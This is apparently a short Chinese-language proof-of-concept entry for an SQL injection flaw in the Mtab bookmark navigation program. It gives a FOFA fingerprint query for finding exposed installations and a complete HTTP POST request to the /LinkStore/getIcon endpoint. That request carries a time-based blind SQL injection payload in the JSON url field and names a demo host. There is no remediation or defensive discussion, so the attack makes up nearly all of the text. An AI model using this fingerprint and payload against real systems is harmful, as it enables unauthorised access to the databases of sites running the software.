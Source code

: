 # Mtab书签导航程序存在SQL注入漏洞

https://github.com/tsxcw/mtab

## fofa

```yaml
icon_hash="391069193"
```

## poc

```json
POST /LinkStore/getIcon HTTP/1.1
X-Requested-With: XMLHttpRequest
Content-Type: application/json
Accept: application/json, text/plain, */*
Content-Length: 50
Accept-Encoding: gzip,deflate,br
Accept-Ldwk: bG91ZG9uZ3dlbmt1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Host: demo.mtab.cc
Connection: Keep-alive

{"url":"'XOR(if(now()=sysdate(),sleep(4),0))XOR'"}
```

